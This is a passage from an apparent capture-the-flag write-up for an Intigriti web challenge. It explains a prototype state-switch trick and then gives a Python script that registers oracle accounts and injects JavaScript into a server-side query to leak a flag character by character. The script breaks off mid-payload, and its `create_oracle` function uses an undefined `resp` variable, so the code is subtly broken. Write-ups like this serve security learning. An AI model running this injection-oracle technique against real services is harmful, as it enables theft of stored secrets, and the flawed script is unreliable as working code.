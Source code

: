 At the beginning, `SWITCH_EMAIL` not exists, so `this.condition` is false. After we leak all the last digits, we update our email to `SWITCH_EMAIL` for the account we created earlier.

Now, the `SWITCH_EMAIL` exists, `this.__proto__.condition` becomes `true`, which makes our JS payload return first digit without updating the code again.

Also, we added some randomize for the account name and email to prevent  conflict.

``` py
import requests
import json
import concurrent.futures
import string
import time
import random

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

FLAG_LENGTH = 19
charset = "0123456789abcdefghi"
req_count = 0
stored_session = [' '] * FLAG_LENGTH

# randomize the account to avoid conflict
switch_email = "abc@abc.comm" + str(random.randint(0,999999))
account_oracle = "account_oracle_" + str(random.randint(0,999999)) + "_"

def create_oracle(index):
  global req_count
  global stored_session
  c = charset[index]
  session = requests.session()
  session.post(LOGIN_URL, data={
    "username": account_oracle + c,
    "password": account_oracle + c,
  })
  req_count+=1

  stored_session[index] = {
    "session": session,
    "name": account_oracle + c
  }

  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)

def leak_char(round, index):
  # leak 10a + b + 27 = ascii
  # use 'this.email == "SWITCH_EMAIL"' to change state so that we don't need to update the payload
  global req_count
  global stored_session
  js_code = """
  if (this.username == "PinkDraconian"){
    this.__proto__.flag = this.password;
  } else if (this.flag) {
    if (this.email == "SWITCH_EMAIL") {
      this.__proto__.condition = 1;
    }
    if (this.condition) {
      return this.username == "account_oracle_" + Math.floor((this.flag.charCodeAt(INDEX) - 27) / 10)
```